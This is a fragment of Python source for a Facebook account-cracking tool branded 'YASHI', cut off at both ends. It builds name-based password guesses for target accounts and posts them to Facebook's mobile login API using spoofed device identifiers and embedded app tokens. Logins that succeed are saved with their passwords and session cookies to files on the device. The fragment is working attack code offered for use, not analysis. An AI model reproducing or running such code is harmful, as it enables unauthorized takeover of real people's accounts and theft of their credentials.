'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',}
                q = session.post("https://b-graph.facebook.com/auth/login",data=data, headers=headers, allow_redirects=False).json()
                if 'session_key' in q:
                    ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"]);YASHIb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-");cookie = f"sb={YASHIb};{ckkk}"
                    print(f"\r{R} [YASHI-OK] {sid} | {ps} {S}")
                    oks.append(sid)
                    
                    open('/sdcard/YASHI_OK_ids_M2.txt','a').write(sid+'|'+ps+'\n');open('/sdcard/YASHI_iDs_COOKiEs_M2.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                    break
                elif 'www.facebook.com' in q['error']['message']:
                    #  print(f"\r{A} [YASHI-CP] {sid} | {ps} {S}")
                    cps.append(sid)
                    open('/sdcard/YASHI_CP.txt','a').write(sid+'|'+ps+'\n')
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
            self.methodC(sid, name, ps)
            
    def methodB(self, sid, name, psw):
        try:
            global oks,cps,loop
            sys.stdout.write(f"\r {S}[YASHI] {loop} | M2 OK/CP {len(oks)}/{len(cps)} | {S}{'{:.0%}'.format(loop/float(len(self.id)))}{S}")
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                with requests.Session() as session:
                    data = {"adid": str(uuid.uuid4()),
"format": "json",
"device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": sid,
"password": ps,
"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",
"meta_inf_fbmeta": "",
"advertiser_id": str(uuid.uuid4()),
"currently_logged_in_userid": "0",
"locale": "en_GB",
"client_country_code": "GB",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d"}
                headers = {'User-Agent': randBuildHHL(),
'Content-Type': 'application/x-www-form-urlencoded',